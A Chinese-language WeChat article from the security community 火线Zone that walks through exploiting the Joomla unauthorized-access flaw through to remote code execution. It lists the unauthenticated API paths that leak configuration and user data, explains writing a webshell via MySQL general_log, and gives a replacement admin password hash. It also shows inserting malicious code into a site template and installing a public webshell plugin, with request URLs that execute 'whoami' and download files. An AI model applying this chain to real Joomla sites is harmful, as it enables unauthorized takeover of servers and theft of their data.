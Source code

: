#  Joomla Unauthorized"后"渗透到RCE

Betta  [ 火线Zone ](javascript:void\(0\);)

**火线Zone** ![]()

微信号 huoxian_zone

功能介绍
火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗等热门主题，旨在研究讨论实战攻防技术，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。

____

___发表于_

收录于合集

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234617.png)

**前言**

前文已经分析过了Joomla Unauthorized的漏洞成因，总的来说是由于函数array_merge()变量覆盖引起的，未授权的api接口很多。

  

 **Joomla Unauthorized RCE1**

api路径

  * 

    
    
    api/index.php/v1/config/application?public=true

http://joomla.net:8011/api/index.php/v1/config/application?public=true

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234619.png)

登录mysql写入webshell，有条件限制

  * 通过log写入webshell

  *   *   *   * 

    
    
    数据库的当前用户为ROOT或拥有FILE权限；（FILE权限指的是对服务器主机上文件的访问）明确网站路径general_log参数值为ONgeneral_log_file参数为webshell路径

  * 通过函数outfile写入webshell（该传统方式 **不可行** ）  

Joomla漏洞版本无注入点无法通过注入点和outfile函数写入webshell

  

 **Joomla Unauthorized RCE2** ****

 **  
**

 **进入后台administrator的方法1**  

通过未授权api

  * 

    
    
    api/index.php/v1/users?public=true

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234620.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234621.png)

可读取用户信息，使用社工方式暴力破解登录后台，利用进行RCE

  

 **进入后台administrator的方法2**

  * 修改模板文件

获取mysql权限后执行sql语句或者使用工具修改后端管理员密码或者其他用户密码，joomla有自己的加密算法，所以也没必要破解他们的加密方式，老版本搭建后使用用户的哈希值更换

  * 

    
    
    Toggle Menu->Users-Manage

![]()

  * 

    
    
    123456123456::$2y$10$GauLOsp1NBJLO0FGjlqhxOu8LZe9wconNuPwqgjX/pGxAqn7dL5ba

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234622.png)

修改admin的密码为该密码

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234623.png)

可登录后台

  

 **后台RCE的两种方式**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234624.png)

  * 

    
    
     Toggle Menu->System->Templates->Site Templates->cassiopeia

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234625.png)

修改模板文件,添加恶意代码实现命令执行，获取webshell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234626.png)

测试webshell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234627.png)

  * 导入恶意插件

项目地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin

路径  

  * 

    
    
    Toggle Menu->System-> Extensions

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234628.png)

下载地址

  * 

    
    
    https://github.com/p0dalirius/Joomla-webshell-plugin/releases/tag/1.1

上传下载的恶意插件  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234629.png)

上传成功后查看插件管理

  * 

    
    
    http://joomla.net:8011/administrator/index.php?option=com_installer&view=manage

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234631.png)

  

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=exec&cmd=whoami

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234632.png)

成功执行命令

当前目录下创建一个1.txt,，文件内容如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234633.png)

  * 

    
    
    http://joomla.net:8011/modules/mod_webshell/mod_webshell.php?action=download&path=./1.txt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234634.png)

文件内容为

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234635.png)

  

参考文章

https://github.com/p0dalirius/Joomla-webshell-plugin

https://vulncheck.com/blog/joomla-for-rce

  

往期推荐

[![]()](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497860&idx=1&sn=4c71ce1396dba6f0880e45d74732c6e2&chksm=eaa970a4dddef9b2eedb3686dcb1b07e25c1bb3904bc6e5f9f349883ff4148013e9c37a0797c&scene=21#wechat_redirect)

[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234636.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497953&idx=1&sn=0c825a2c7832e8b760ad45a77a1b8359&chksm=eaa970c1dddef9d745224f7fdcf496465ef248e460d520d335fa8b1e8f65899aba6efdc16b86&scene=21#wechat_redirect)

[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230622234638.png)](http://mp.weixin.qq.com/s?__biz=MzI2NDQ5NTQzOQ==&mid=2247497941&idx=1&sn=5a222c66d2a456b1c08a5bcbd6700535&chksm=eaa970f5dddef9e3f3d943bb064113b43a3665f76f36b7d26e021eb58ddd8ecad94c80c18ec5&scene=21#wechat_redirect)

  

![]()

火线Zone是火线安全平台运营的安全社区，拥有超过20,000名可信白帽安全专家，内容涵盖渗透测试、红蓝对抗、漏洞分析、代码审计、漏洞复现等热门主题，旨在研究讨论实战攻防技术，助力社区安全专家技术成长，2年内已贡献1300+原创攻防内容，提交了100,000+原创安全漏洞。  

欢迎具备分享和探索精神的你加入火线Zone社区，一起分享技术干货，共建一个有技术氛围的优质安全社区！

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

